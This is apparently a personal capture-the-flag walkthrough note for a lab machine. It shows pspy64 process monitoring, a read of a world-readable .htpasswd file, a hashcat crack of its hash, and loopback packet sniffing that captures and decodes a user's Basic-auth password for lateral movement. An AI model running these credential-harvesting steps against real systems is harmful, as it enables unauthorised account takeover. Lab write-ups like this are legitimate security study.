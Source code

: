 From [[COMPUTER INFORMATION]]
### USING PSPY64

---

Executed from **theodore**

```bash
2024/05/10 12:18:02 CMD: UID=1001 PID=18226  | /bin/sh -c uname -p 2> /dev/null 
2024/05/10 12:18:01 CMD: UID=1001 PID=18223  | /bin/sh -c /usr/bin/python3 /home/theodore/scripts/test-www-auth.py >/dev/null 2>&1 
2024/05/10 12:17:02 CMD: UID=1001 PID=18165  | /usr/bin/python3 /home/theodore/scripts/test-www-auth.py 
```

**No write permissions to where the folders there are nor the files**

Maybie worth it seeing what is inside www

```bash
[simeon@aratus html]$ ls -la
total 0
drwxr-xr-x. 4 root root  37 Jan 25  2022 .
drwxr-xr-x. 4 root root  33 Jan 25  2022 ..
drwxr-xr-x. 2 root root 230 Jan 10  2022 simeon
drwxr-xr-x. 2 root root  41 Nov 23  2021 test-auth
```

```bash
[simeon@aratus test-auth]$ ls -la
total 8
drwxr-xr-x. 2 root root  41 Nov 23  2021 .
drwxr-xr-x. 4 root root  37 Jan 25  2022 ..
-rw-r--r--. 1 root root  47 Nov 23  2021 .htpasswd
-rw-r--r--. 1 root root 109 Nov 23  2021 index.html
[simeon@aratus test-auth]$ cat .htpasswd 
theodore:$apr1$pP2GhAkC$R12mw5B5lxUiaNj4Qt2pX1

```

**ahahhahah laughes with a smirk** 

```bash
 hashcat -m 1600 --show theodore_hash ../../Tools/rockyou.txt 
$apr1$pP2GhAkC$R12mw5B5lxUiaNj4Qt2pX1:testing123
```

**SAD IT IS NOT THE USER'S PASS**

**Took a couple of minutes but after seeing the test-www-auth.py i thought about using tcpdump to see incoming packets from 127.0.0.1 and see what was in them**

One of these include the response to a challenge with basic http authentication.

Authorization: Basic dGhlb2RvcmU6UmlqeWFzd2FoZWJjZWliYXJqaWs=\r\n
	Credentials: theodore:Rijyaswahebceibarjik
\r\n

Turns out these are theodore's credentials, now we get to be [[theodore]]
